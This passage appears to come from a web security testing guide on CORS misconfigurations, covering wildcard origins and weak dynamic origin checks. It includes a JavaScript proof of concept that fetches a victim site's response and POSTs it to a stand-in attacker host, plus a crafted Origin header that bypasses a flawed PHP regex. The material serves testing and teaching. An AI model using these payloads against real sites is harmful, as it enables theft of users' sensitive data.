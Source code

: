 #### Wildcard Access-Control-Allow-Origin

A tester can check if the `Access-Control-Allow-Origin: *` exists in the HTTP response messages.

```http
HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 4
Content-Type: application/xml

[Response Body]
```

If a response contains sensitive data, an attacker can steal it through the usage of XHR:

```html
<html>
    <head></head>
    <body>
        <script>
            var xhr = new XMLHttpRequest();
            xhr.onreadystatechange = function() {
                if (this.readyState == 4 && this.status == 200) {
                    var xhr2 = new XMLHttpRequest();
                    // attacker.server: attacker listener to steal response
                    xhr2.open("POST", "http://attacker.server", true);
                    xhr2.send(xhr.responseText);
                }
            };
            // victim.site: vulnerable server with `Access-Control-Allow-Origin: *` header 
            xhr.open("GET", "http://victim.site", true);
            xhr.send();
        </script>
    </body>
</html>
```

#### Dynamic CORS Policy

A modern web application or API may be implemented to allow cross-origin requests dynamically, generally in order to allow the requests from the sub domains like the following:

```php
if (preg_match('|\.example.com$|', $_SERVER['SERVER_NAME'])) {
   header("Access-Control-Allow-Origin: {$_SERVER['HTTP_ORIGIN']}");
   ...
}
```

In this example, all the requests from the subdomains of example.com will be allowed. It must be ensured that the regular expression that is used to match is complete. Otherwise, if it was simply matched with `example.com` (without `$` appended), attackers might be able to bypass the CORS policy by appending their domain to the `Origin` header.

```http
GET /test.php HTTP/1.1
Host: example.com
[...]
Origin: http://example.com.attacker.com
Cookie: <session cookie>
```
